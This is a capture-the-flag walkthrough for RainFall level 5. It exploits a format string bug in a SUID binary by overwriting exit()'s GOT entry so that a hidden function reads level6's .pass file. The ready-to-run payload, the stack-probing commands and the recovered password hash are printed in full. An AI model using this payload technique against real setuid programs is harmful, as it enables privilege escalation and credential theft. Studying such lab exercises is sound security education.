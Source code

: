 # Level 5 Walkthrough

## Who am I?

```bash
level5@RainFall:~$ id
uid=2026(level5) gid=2026(level5) groups=2026(level5),100(users)
```

## Where am I?

```bash
level5@RainFall:~$ ls -l
-rwsr-s---+ 1 level6 users 5252 Mar  6  2016 level5*
```

We are in possession of a SUID binary owned by `level6`. Our objective is to exploit this binary to execute a command as `level6` and retrieve the contents of the `.pass` file.

---

## Program Behavior

Running the binary:

```bash
level5@RainFall:~$ ./level5
hello
hello
```

No crash, even when injecting long strings:

```bash
level5@RainFall:~$ python -c "print('A'*200)" | ./level5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This suggests the program uses `fgets()`, which safely limits input size.

---

## Decompiled Structure (via Ghidra)

```c
void main(void)
{
  n();
  return;
}

void n(void)
{
  char local_20c [520];

  fgets(local_20c, 0x200, stdin);
  printf(local_20c);

  exit(1);
}

void o(void)
{
  system("/bin/cat /home/user/level6/.pass");
  _exit(1);
}
```

---

## Format String Vulnerability

`printf()` is called with user input, without format string control:

```c
printf(local_20c); // vulnerable
```

This introduces a classic format string vulnerability. We can try to leak stack values:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level5
```

We continue until we spot `0x41414141`:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level5
```

We find `41414141` (AAAA) at the **4th** position on the stack. So we will use `%4$n`.

---

## Exploitation Strategy

We know:

* `exit()` is called at the end of `n()`
* `exit()` has an entry in the GOT at `0x08049838`, which stands for Global Offset Table. The GOT is a section in memory used by dynamically linked executables to hold the addresses of external functions. When a function like `exit()` is first called, the binary looks up its actual address via the GOT. Since the GOT is writable, it becomes a valuable target for attackers who want to hijack control flow by replacing the function's address with another, in this case, pointing `exit()` to the hidden `o()` function.
* There's a hidden function `o()` at `0x080484a4` which prints the flag

We want to overwrite the GOT entry of `exit` to point to `o`, so that when `exit()` is called, it executes `o()` instead.

We verify addresses:

```bash
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

```gdb
(gdb) info functions o
0x080484a4  o
```

Now we build a payload to overwrite the GOT entry of `exit()` (at `0x08049838`) with the value `0x080484a4` using the format string exploit.

We test a simple probe:

```bash
python -c 'print "\x38\x98\x04\x08" + " %x" * 10' > /tmp/exploit
cat /tmp/exploit | ./level5
8 200 b7fd1ac0 b7ff37d0 8049838 20782520 25207825 78252078 20782520 25207825 78252078
```

We observe that the address lands at the 4th argument → use `%4$n`.

### Final Payload

We need to print `134513828` characters (decimal value of `0x080484a4`) before `%n` is triggered.

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
cat /tmp/exploit - | ./level5
```

This replaces the GOT entry of `exit()` with `o()`, which is executed as soon as `exit()` is called:

```bash
                                               512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## Conclusion

This level demonstrates how a format string vulnerability can be used to overwrite function pointers inside the GOT. Specifically, we:

* Identified that `printf()` is called with user input and no format string
* Found a hidden function `o()` that reveals the flag
* Determined the GOT address of `exit()` → `0x08049838`
* Overwrote that address with `0x080484a4` (address of `o()`)
* Used `%n` at offset 4 on the stack to perform the write
* Upon program exit, our payload triggered execution of `o()` and revealed the flag

Dynamic analysis with GDB and memory inspection was essential to confirm addresses and offsets precisely, allowing a reliable exploitation strategy.

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)
